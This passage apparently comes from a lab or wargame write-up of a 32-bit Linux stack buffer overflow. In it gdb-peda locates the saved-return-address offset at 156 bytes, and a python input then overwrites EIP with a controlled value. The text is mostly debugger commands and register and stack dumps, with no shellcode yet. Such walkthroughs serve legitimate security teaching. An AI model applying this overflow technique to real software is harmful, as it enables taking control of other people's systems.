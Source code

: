 ```nasm
0020| 0xbffff714 ("XAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0024| 0xbffff718 ("AAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0028| 0xbffff71c ("AuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x70414154 in ?? ()
gdb-peda$ pattern search 
Registers contain pattern buffer:
EIP+0 found at offset: 156
EBX+0 found at offset: 144
EDI+0 found at offset: 148
EBP+0 found at offset: 152
Registers point to pattern buffer:
[ESP] --> offset 160 - size ~140

...[snip]...
```

It seems that we have to write **156** bytes before overwriting the return address. Let's try that!

```nasm
gdb-peda$ r < <(python -c 'print 156 * "\x41" + "\x42\x42\x42\x42" + 150 * "\x43"')
Starting program: /levels/lab03/lab3B < <(python -c 'print 156 * "\x41" + "\x42\x42\x42\x42" + 150 * "\x43"')
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
[New process 3113]
just give me some shellcode, k
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3113]
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad2088 
EDX: 0xb7fce8a4 --> 0x0 
ESI: 0x0 
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 ('C' <repeats 150 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 ('C' <repeats 150 times>)
0004| 0xbffff704 ('C' <repeats 146 times>)
0008| 0xbffff708 ('C' <repeats 142 times>)
0012| 0xbffff70c ('C' <repeats 138 times>)
0016| 0xbffff710 ('C' <repeats 134 times>)
0020| 0xbffff714 ('C' <repeats 130 times>)
0024| 0xbffff718 ('C' <repeats 126 times>)
0028| 0xbffff71c ('C' <repeats 122 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```
